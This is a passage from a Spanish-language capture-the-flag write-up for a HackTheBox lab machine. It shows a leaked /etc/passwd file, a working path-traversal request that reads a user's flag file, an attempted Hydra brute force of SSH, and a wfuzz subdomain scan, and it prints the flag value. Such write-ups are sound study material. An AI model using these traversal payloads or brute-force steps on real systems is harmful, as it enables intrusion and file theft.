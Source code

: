 ```
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
Nos interesan las rutas /home/\<usuario\>, las cuales aparecen con los usuarios syslog y developer. Sin embargo, solo developer es accesible por *SSH*, ya que tiene una shell válida (*/bin/bash*), mientras que syslog usa */usr/sbin/nologin* (que bloquea el acceso).
```
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

Sabiendo el nombre de usuario, podemos introducir la ruta *"/download?ticket=../../../../home/developer/user.txt"* y obtener exitosamente la **flag de usuario**.
```
> curl -s "http://titanic.htb/download?ticket=../../../../home/developer/user.txt"    

b12d7bc5fe9f355b0910a94e94be1579
```

>Intenté también conectarme mediante SSH al usuario 'developer' y encontrar una contraseña por fuerza bruta (Hydra) para después escalar permisos, pero se rechazaba la conexión. <br> 

<br>

Entonces probé a buscar subdominios, en vez de subdirectorios.
```
> wfuzz -c -w /usr/share/wordlists/dnsmap.txt -H "Host: FUZZ.titanic.htb" -u http://titanic.htb/ --hc=301

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://titanic.htb/
Total requests: 17576

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                            
=====================================================================

```